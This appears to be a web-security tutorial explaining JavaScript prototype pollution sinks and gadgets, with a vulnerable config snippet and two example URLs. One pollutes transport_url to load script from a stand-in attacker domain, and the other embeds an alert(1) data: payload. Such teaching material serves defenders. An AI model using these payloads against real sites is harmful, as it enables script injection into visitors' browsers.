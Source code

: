 ### Prototype pollution sinks

A prototype pollution sink is essentially just a JavaScript function or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands. We've covered some client-side sinks extensively in our topic on DOM XSS.

As prototype pollution lets you control properties that would otherwise be inaccessible, this potentially enables you to reach a number of additional sinks within the target application. Developers who are unfamiliar with prototype pollution may wrongly assume that these properties are not user controllable, which means there may only be minimal filtering or sanitization in place.
### Prototype pollution gadgets

A gadget provides a means of turning the prototype pollution vulnerability into an actual exploit. This is any property that is:

-    Used by the application in an unsafe way, such as passing it to a sink without proper filtering or sanitization.

-    Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.

A property cannot be a gadget if it is defined directly on the object itself. In this case, the object's own version of the property takes precedence over any malicious version you're able to add to the prototype. Robust websites may also explicitly set the prototype of the object to null, which ensures that it doesn't inherit any properties at all.

### Example of a prototype pollution gadget

Many JavaScript libraries accept an object that developers can use to set different configuration options. The library code checks whether the developer has explicitly added certain properties to this object and, if so, adjusts the configuration accordingly. If a property that represents a particular option is not present, a predefined default option is often used instead. A simplified example may look something like this:
```js
let transport_url = config.transport_url || defaults.transport_url;
```
Now imagine the library code uses this transport_url to add a script reference to the page:
```js
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```
If the website's developers haven't set a transport_url property on their config object, this is a potential gadget. In cases where an attacker is able to pollute the global Object.prototype with their own transport_url property, this will be inherited by the config object and, therefore, set as the src for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:
```
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```
By providing a data: URL, an attacker could also directly embed an XSS payload within the query string as follows:
```
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```
Note that the trailing // in this example is simply to comment out the hardcoded /example.js suffix.
